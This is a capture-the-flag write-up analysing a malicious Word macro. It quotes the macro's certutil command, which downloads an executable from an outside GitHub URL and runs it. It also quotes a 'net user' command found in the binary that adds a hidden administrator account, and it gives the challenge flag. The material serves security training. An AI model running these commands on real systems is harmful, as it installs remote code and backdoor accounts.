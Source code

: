 ## Task 1: Resign Letter
Question: 

Flag: `RWSC{p@ss123}`

We are given a weird document template file created by Microsoft Word. When opening it, macros can be found.

![image](https://hackmd.io/_uploads/BJ-lW6Hp6.png)

Opening the macro named `Test` as shown below provides us with the following code.

![image](https://hackmd.io/_uploads/rkgoLZaHap.png)

```
Shell ("cmd /c certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Adv_Sim/raw/main/lenovo.exe %temp%\lenovo.exe")
Shell ("cmd /c %temp%\lenovo.exe")
```

Downloading the mallicious binary and using strings, we can see that it executes:
```
cmd.exe /c net user f14g cEBzczEyMw== /ADD && net localgroup Administrators f14g /ADD
```

It tries to add the user `f14g` with password `cEBzczEyMw==` to the local machine and add it to the `Administrators` group. Decode the password with base64 for the flag.
